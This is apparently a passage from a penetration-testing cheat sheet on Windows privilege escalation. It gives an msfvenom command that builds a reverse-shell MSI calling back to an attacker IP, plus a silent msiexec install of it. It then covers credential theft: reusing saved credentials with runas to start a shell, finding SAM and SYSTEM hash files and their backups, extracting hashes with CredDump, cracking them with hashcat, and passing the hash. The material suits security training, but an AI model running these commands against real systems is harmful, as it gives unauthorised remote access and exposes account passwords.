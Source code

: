 Generate a new reverse shell with msi extension

```powershell
C:\Cas> msfvenom -p windows/x64/shell_reverse_tcp lhost=<my-ip> lport=443 -f msi -o shell.msi
```

```powershell
C:\Cas> msiexec /quiet /qn /i shell.msi
```

## Passwords

### Registry

??? info "info"
Registry — “Plenty of programs store configuration options in the Windows Registry. Windows itself sometimes will store passwords in plaintext in the Registry. It is always worth searching the Registry for passwords.”

### Saved Creds

??? info "info"
Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.

```powershell
C:\Cas> cmdkey /list
```

```powershell
C:\Cas> runas /savecred /user:<user_name> shell.exe
```

### Security Account Manager (SAM)

??? info "info"
“Windows stores password hashes in the Security Account Manager (SAM). The hashes are encrypted with a key which can be found in a file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.”

    The SAM and SYSTEM files:  `C:\\Windows\System32\config `
    Backups of the files may exist: `C:\\Windows\\Repair` or `C:\\Windows\\System32\\config\\RegBack `
    Extract the hash using ‘[CredDump](https://github.com/Neohapsis/creddump7.git)’
    Use hashcat to crack hash

```powershell
C:\Cas> hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

### Passing the Hash

??? info "info"
Windows accepts hashes instead of passwords to authenticate to a number of services. We can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user’s hash
